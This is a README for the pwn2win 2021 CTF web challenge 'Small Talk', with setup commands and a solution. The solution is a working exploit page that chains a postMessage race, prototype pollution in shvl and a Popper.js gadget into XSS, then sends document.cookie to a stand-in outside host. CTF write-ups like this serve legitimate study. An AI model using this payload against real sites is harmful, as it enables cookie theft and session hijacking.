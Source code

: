 # Small Talk - pwn2win 2021
**Description:** Take a little break in your journey, read some of our extravagant knowledgement to become your best version...

...and, of course, share your sentences with us.

**Solves:** 16

**First Blood:** More Smoked Leet Chicken

# Running it
`docker-compose build`

`docker-compose up -d`

environment will be running at http://localhost:1337

## Advisory
In order to get the flag through cookies you must run it with HTTPS to set cookies with samesite none parameter.

## Solution

To solve this challenge submit to the bot your page with the following code:

```
<!--
Pwn2win 2021 Small Talk solution
step 1: race condition in postMessage
step 2: prototype pollution in shvl
step 3: use Popper.js as gadget to achieve xss
-->

<iframe name="page" style="height: 500px" src="https://small-talk.coach:1337/#send-button"></iframe>

<body><input id="oi" autofocus></body>
<script>
    setInterval(function(){
        window.frames["page"].postMessage('{"__proto__.reference.onblur": "location=`https://your.address.com/${document.cookie}`", "message": "gonna hack"}', '*');
    }, 0);
</script>
<script>
    setInterval(function(){
        oi = document.querySelector('#oi');
        oi.focus();
    }, 700)
</script>
```